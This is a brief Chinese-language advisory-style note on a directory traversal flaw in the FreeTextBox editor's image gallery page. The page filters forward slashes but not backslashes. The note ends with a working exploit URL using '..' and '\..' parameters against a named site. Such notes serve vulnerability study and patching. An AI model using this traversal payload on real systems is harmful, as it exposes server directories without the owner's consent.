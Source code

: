 ## Freetextbox

### Freetextbox遍历目录漏洞

影响版本：未知
脆弱描述：
因为ftb.imagegallery.aspx代码中 只过滤了/但是没有过滤\符号所以导致出现了遍历目录的问题。
攻击利用:
在编辑器页面点图片会弹出一个框（抓包得到此地址）构造如下，可遍历目录。
http://navisec.it/Member/images/ftb/HelperScripts/ftb.imagegallery.aspx?frame=1&rif=..&cif=\..
